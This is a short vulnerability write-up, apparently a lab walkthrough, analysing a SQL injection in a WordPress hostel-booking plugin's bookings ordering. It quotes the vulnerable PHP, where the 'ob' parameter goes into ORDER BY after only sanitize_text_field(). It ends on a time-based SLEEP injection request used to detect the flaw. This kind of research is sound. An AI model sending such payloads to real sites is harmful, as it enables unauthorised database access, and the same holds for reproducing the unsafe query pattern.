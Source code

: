 **Menu in the Admin UI**

{{< figure src="menu_ui.png" caption="Menu UI" >}}

**Debugging**

* The faulty functionality is in the **Booking Manager**, so navigate to the `Manage Bookings` submenu in the Admin UI.
* Right before the default branch there is a comment `// list bookings` — indicating this code handles **listing and ordering bookings**.
* Open your debugger:

  * Click <kbd>Run with Debugger</kbd>.
  * Set a **breakpoint** at the `switch` branch that contains the vulnerable code and at the exact line that assigns the vulnerable value.
* When you click a column header in the bookings table, observe:

  * The debugger steps into the `switch`.
  * Use **Step Over** to reach the `default` branch.
  * Continue **Step Over** and inspect variables in `Variables > Locals`. These variables combine to form the SQL query below.

After combining the variables, the full query looks like:

```sql
SELECT SQL_CALC_FOUND_ROWS tB.*, tR.title as room 
FROM wp_hostel_bookings tB 
JOIN wp_hostel_rooms tR ON tR.id = tB.room_id 
WHERE is_static=0 AND tB.id = ... 
ORDER BY tB.amount_paid ASC|DESC 
LIMIT ...
```

Notably, the `$orderby` variable is assigned as:

```php
if(!empty($_GET['ob'])) {					
    $orderby = "ORDER BY ".sanitize_text_field($_GET['ob']) . ' ' . $dir;
}
```

⚠️ Issues here:

* The part after `ORDER BY` uses `sanitize_text_field()`.
* That function only **cleans HTML**, and does not validate or filter input to make it safe in an **SQL context**.
* Therefore the `ob` parameter (provided by the user) can be abused to **inject SQL** directly.

## Exploit

### Detecting SQLi

**Request with BurpSuite**:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&ob=tB.status,(SELECT+SLEEP(10))&dir=ASC HTTP/1.1
```
